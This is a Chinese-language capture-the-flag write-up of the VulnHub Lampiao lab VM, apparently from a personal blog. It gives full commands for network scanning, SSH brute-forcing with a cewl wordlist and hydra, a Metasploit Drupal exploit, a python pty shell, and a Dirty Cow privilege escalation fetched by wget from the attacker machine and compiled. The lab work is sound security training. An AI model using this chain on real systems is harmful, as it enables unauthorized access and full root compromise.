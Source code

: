 ```yaml
---
title: 靶场练习-Lampiao
tags:
  - 网络安全
readmore: true
date: 2023-02-23 13:07:58
updated: 2023-02-23 13:07:58
---
```


### 环境搭建

访问官网：https://www.vulnhub.com/entry/lampiao-1,249/

页面向下滑找到 Download 下载靶场；下载成功后，启动虚拟机，单击“打开”选项，找到刚刚下载并解压好的靶场文件，等待导入完成；

完成后启动靶机，可以看到只有一个登录窗口，此时靶机已经成功运行。

启动 kali 虚拟机，并同时设置两个机器的网络配置为 NAT 模式；

这样可以使所有的虚拟机共同处在一个独立的网段（和物理机不在同一个网段），方便后续探索靶机 ip 时更快的找到靶机 ip；

<!-- more -->

### 获取 shell

由于靶机无法直接登录，所以我们也无法获取靶机的任何信息，最重要的就是要先访问靶机；

#### nmap 扫描

nmap： nmap（Network Mapper）是一款开源免费的针对大型网络的端口扫描工具，nmap可以检测目标主机是否在线、主机端口开放情况、检测主机运行的服务类型及版本信息、检测操作系统与设备类型等信息。

官方网站：https://nmap.org/

使用 nmap 扫描整个网段，找到靶机的 ip 地址：

```bash
nmap -sS -Pn 192.168.19.0/24
# -sS 半开放扫描，打开一个不完全的 TCP 连接，速度较快且不容易被发现
# -Pn 穿透防火墙进行扫描，有的防火墙禁止 ping 命令，可以使用此选项
# 要扫描的网段，24指的是32位二进制的前24位用 “1” 表示，并变化后面的几位来进行扫描
```

 ![](https://pic.mewhz.com/lampiao/1.png)

发现这个 ip 的 80 端口是开放的，去访问这个网站，发现是一个静态页面；

进一步扫描 ip 开放的所有端口：

```bash
nmap -T4 -p 1-65535 192.168.19.136
# -T4 设置扫描的时间模板为 T4， 可以更快的扫描
# -p 设置扫描的端口范围，1-65535 是所有的端口
```

 ![](https://pic.mewhz.com/lampiao/2.png)

发现开启着 ssh 服务(22端口)，80 端口和 1898 端口，尝试访问 1898端口。

#### 爆破用户名密码 (第一种获取 shell 方法)

访问 1898 端口后，尝试都点击一下，在 url node = 1 中尝试修改为 2 并访问:

```bash
http://192.168.19.136:1898/?q=node/2
```

 ![](https://pic.mewhz.com/lampiao/3.png)

发现一个 m4a 和 png 文件，扫描二维码发现没有有用的信息，听 m4a 文件可以得到用户名为

>tiago

得到了用户名，可以尝试使用 cewl 制作字典来进行爆破:

```bash
cewl http://192.168.19.136:1898/?q=node/1 -w password.txt
# cewl 可以探索网站的内容并生成一个字典文件
# -w 结果写入文件
```

 ![](https://pic.mewhz.com/lampiao/4.png)

使用 hydra 工具：

```bash
hydra -l tiago -P password.txt 192.168.19.136 ssh
# -l: 指定用户名进行爆破
# -P 用于指定密码字典 (大写)
# ssh: 指定服务名，支持的服务跟协议有：telnet，ftp，pop3等等。
```

成功得到用户名密码：username: **tiago**   password: **Virgulino**

![](https://pic.mewhz.com/lampiao/5.png)

使用 ssh 命令成功登录：

```bash
ssh tiago@192.168.19.136
```

![](https://pic.mewhz.com/lampiao/6.png)

#### 漏洞利用 (第二种获取 shell 方法)

进入网站后，先使用 dirsearch 命令扫描一下目录：

```bash
dirsearch -u 192.168.19.136:1898
```

![](https://pic.mewhz.com/lampiao/7.png)

发现 CHANGELOG.txt 文件，并通过该文件得到了 Drupal 的版本，百度搜索发现该版本存在漏洞，使用 msfconsole 利用漏洞；

msfconsole：集成了很多漏洞的利用的脚本，并且使用起来很简单的网络安全工具

```bash
msfconsole
# 如果启动很慢，可以在 kali 中直接启动 metasploit framework
search Drupal
# 启动后输入该命令搜索 Drupal 相关漏洞
```

![](https://pic.mewhz.com/lampiao/8.png)

找到对应的漏洞

```bash
use 1
# 使用攻击模块 1
set rhosts 192.168.19.136
# 设置目标 ip
set rport 1898
# 设置目标端口
show options
# 查看信息是否正确
run
# 运行攻击模块
```

成功拿到对应的 shell

![](https://pic.mewhz.com/lampiao/9.png)

执行shell获取交互式命令，由于我们获取的shell并不是一个具有完整交互的shell，对于已经安装了python的系统，我们可以使用 python提供的pty模块，只需要一行脚本就可以创建一个原生的终端，命令如下：

```python
shell
# shell 获取目标主机的远程命令行shell，使用exit退出当前的shell
python -c 'import pty;  pty.spawn("/bin/bash")'
# -c 可以在命令行调用 python 代码
# pty 伪终端工具
# pty.spawn 生成一个进程，并将其控制终端连接到当前进程的标准 io。
```

![](https://pic.mewhz.com/lampiao/10.png)

### 提权

获取 shell 后发现是一个低权限的用户，所以我们需要提权。查看 linux 内核版本：

```bash
uname -r
# 用于显示操作系统的信息
# -r 显示操作系统的发行编号
```

![](https://pic.mewhz.com/lampiao/11.png)

发现该版本存在脏牛漏洞，可以使用脏牛(Dirty Cow)漏洞进行提权；

```bash
searchsploit dirty
# searchsploit 是一个用于Exploit-DB的命令行搜索工具
```

ExploitDB是一个面向全世界黑客的漏洞提交平台；https://www.exploit-db.com

![](https://pic.mewhz.com/lampiao/12.png)

使用 40847.cpp 作为提权的代码文件，首先在本机找到该文件

```bash
cd /usr/share/exploitdb/exploits/linux/local/
cp 40847.cpp /tmp
cd /tmp
```

然后将里面内容复制到靶机上，可以直接使用复制粘贴，也可以使用 xftp 或者 kali 使用 python 开启 web 服务，靶机通过 wget 命令进行下载。

```python
python -m http.server 8080
# 开启 8080 端口，kali 使用
wget 192.168.19.130:8080/40847.cpp
# 下载文件，文件保存在本地
```

下载后使用 g++ 进行编译

```bash
 g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
 # g++ 是C&C++ 的编译器
 # -Wall 允许发出GCC能够提供的所有有用的警告
 # -pedantic 允许发出ANSI/ISO C标准所列出的所有警告
 # -O2 编译器的优化选项的4个级别，-O0表示没有优化,-O1为缺省值，-O3优化级别最高
 # -std=c++11 就是用按C++2011标准来编译
 # -pthread 在Linux中要用到多线程时，需要链接pthread库
 # -o dcow gcc生成的目标文件,名字为dcow
 ./dcow 
 # 执行编译后的文件
```

获取到 root 用户密码：dirtyCowFun

```bash
su root
# 切换 root 用户，输入密码后成功登录
```

在 root 目录下成功找到 flag.txt

![](https://pic.mewhz.com/lampiao/13.png)

---

### 参考资料

[VulnHub-Lampiao 靶场渗透测试](https://www.cnblogs.com/l2sec/p/14403481.html)

[黑客工具之hydra详细使用教程](https://zhuanlan.zhihu.com/p/397779150)

[记一次lampiao靶机渗透](https://zhuanlan.zhihu.com/p/349079469)

[【工具使用】--- cewl](https://blog.csdn.net/qq_43168364/article/details/111773051)

[nmap 常用参数](https://blog.csdn.net/tryheart/article/details/108245986)

[msfconsole的使用 ](https://www.cnblogs.com/Junglezt/p/16009926.html)

[Python 3.10.0 官方文档(全)](https://www.bookstack.cn/books/python-3.10.0-zh)

[网络安全nmap扫描端口命令详解linux网络探测](https://www.920vip.net/article/66)
